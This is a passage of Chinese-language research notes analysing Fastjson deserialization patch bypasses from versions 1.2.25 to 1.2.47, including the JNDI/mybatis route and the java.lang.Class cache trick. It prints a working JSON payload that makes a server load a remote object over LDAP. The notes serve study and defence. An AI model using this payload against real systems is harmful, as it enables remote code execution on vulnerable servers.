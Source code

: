 所以我自己进行了调试：

![](/Pic/1.png)

核心关键点在于：**JavaBeanDeserializer.deserialze 403行**，

当payload正确时,不执行IF语句,否则执行IF语句。**核心在于token的值**

token的值涉及 json解析器 的原理，因为不在我们讨论的范围所以忽略不计。

```java
if (token != JSONToken.LBRACE && token != JSONToken.COMMA) {
    ...
}
```

如果执行了IF语句（说明payload正确），就触发了 `syntax error, expect {, actual string, pos xxxx, fastjson-version 1.2.43`

【详情代码查看：1.2.25-1.2.43.java】

---

### 1.2.25-1.2.45补丁绕过

**AutoTypeSupport = True 才能成功**

**前提条件：需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列<3.5.0的版本。**

**本质上是 JNDI注入（RMI,ldap都可以利用）+ Bypass 黑名单**

【详情代码查看：1.2.25-1.2.45.java】

---

### 1.2.25-1.2.47补丁绕过

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport不能利用

- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用

  ​								——[Fastjson 1.2.25-1.2.47反序列化漏洞分析](https://xz.aliyun.com/t/9052#toc-14)

**原理：**

绕过了 `ParserConfig.checkAutoType()`。

通过 java.lang.Class，将JdbcRowSetImpl类加载到Map中缓存，从而绕过AutoType的检测。因此将payload分两次发送，第一次加载，第二次执行。默认情况下，只要遇到没有加载到缓存的类，`checkAutoType()`就会抛出异常终止程序。

​										——[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.github.io/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

将payload分两次发送：

```java
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:1099/EvilObject","autoCommit":true}}
```

---